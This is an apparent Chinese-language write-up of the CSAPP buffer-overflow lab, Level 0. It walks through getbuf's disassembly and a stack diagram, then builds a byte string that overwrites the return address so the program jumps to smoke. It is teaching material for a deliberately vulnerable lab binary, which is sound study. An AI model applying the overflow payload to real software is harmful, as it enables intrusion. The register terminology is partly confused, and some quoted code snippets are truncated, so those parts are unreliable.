

CSAPP Lab3 解题分析
首先，使用tar xvf命令解压文件后，会有3个可执行的二进制文件bufbomb，hex2raw，makecookie。参考write-up。
Level 0
Bufbomb程序运行会读一个字符串，使用一下函数getbuf:
1 | /* Buffer size for getbuf */ |
Gets函数和标准库的gets功能比较相似，是读取字符串。因为Gets没有办法判断是否buf足够大，所以要用一个函数去判断长度是否小于32。将字符串传入getbuf函数中，若字符串小于32，则返回1.
1 | 080491f4 <getbuf>: 80491f4: 55 push %ebp 80491f5: 89 e5 mov %esp,%ebp 80491f7: 83 ec 38 sub $0x38,%esp 80491fa: 8d 45 d8 lea -0x28(%ebp),%eax 80491fd: 89 04 24 mov %eax,(%esp) 8049200: e8 f5 fa ff ff call 8048cfa <Gets> 8049205: b8 01 00 00 00 mov $0x1,%eax 804920a: c9 leave 804920b: c3 ret |
getbuf是由函数test调用:
1 | void test() { |
其中，Smoke源码：
1 | void smoke(){ |
level 0 的任务是让getbuf在执行后返回时，执行smoke函数，而不是返回test函数中。
关于堆栈，可以参考书中的这张图 
根据上面的汇编代码，可以知道，首先push保存了堆指针(frame pointer)，然后%ebp保存帧指针(stack pointer)，%esp减0x38。lea把buf的指针地址-0x28(%ebp)传给了Gets函数。所以可以画出堆栈图
1 | +---------------+ | | | getbuf返回地址 | | | +---------------+ | | | %ebp | | | +---------------+ | | | | | | | buf | | | | 40 byte | | | | | | | +---------------+ | | | %esp | | | +---------------+ |
所以为了修改getbuf返回地址，需要在从buf开始，填充 40 + 4 = 44个字节，并且按照要求，这44个字节要是非0a数。根据汇编得到的smoke地址为08048c18，又因为是电脑小端法，所以构建的文本可以是这样的
1 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 18 8c 04 08 |